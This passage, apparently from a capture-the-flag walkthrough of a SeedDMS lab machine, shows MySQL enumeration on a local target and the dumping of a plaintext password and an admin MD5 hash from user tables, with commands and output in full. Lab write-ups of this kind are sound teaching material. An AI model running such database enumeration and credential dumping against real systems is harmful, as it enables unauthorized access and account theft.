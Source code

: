 ### Mysql Enumeration

I then decided to try to login via mysql without password as user **seeddms**, there is a database called the same as the username, so I switched to it.

```console
root@kali:~$ mysql -h 172.16.131.131 -u seeddms -p
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| seeddms            |
| sys                |
+--------------------+
5 rows in set (0.416 sec)

MySQL [(none)]> use seeddms;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

In the **seeddms** database there are two tables that look interesting.

```console
MySQL [seeddms]> show tables;
...
| tblUsers                     |
...
| users                        |
+------------------------------+
```

Retrieving the content of the table **users**, we see that there is a register.

```console
MySQL [seeddms]> select *from users;
+-------------+---------------------+--------------------+-----------------+
| Employee_id | Employee_first_name | Employee_last_name | Employee_passwd |
+-------------+---------------------+--------------------+-----------------+
|           1 | saket               | saurav             | Saket@#$1337    |
+-------------+---------------------+--------------------+-----------------+
```

Retrieving the content of the table **tblUsers**, we see that there are two registers.

```console
MySQL [seeddms]> select login,pwd from tblUsers;
+-------+----------------------------------+
| login | pwd                              |
+-------+----------------------------------+
| admin | f9ef2c539bad8a6d2f3432b6d49ab51a |
| guest | NULL                             |
+-------+----------------------------------+
```
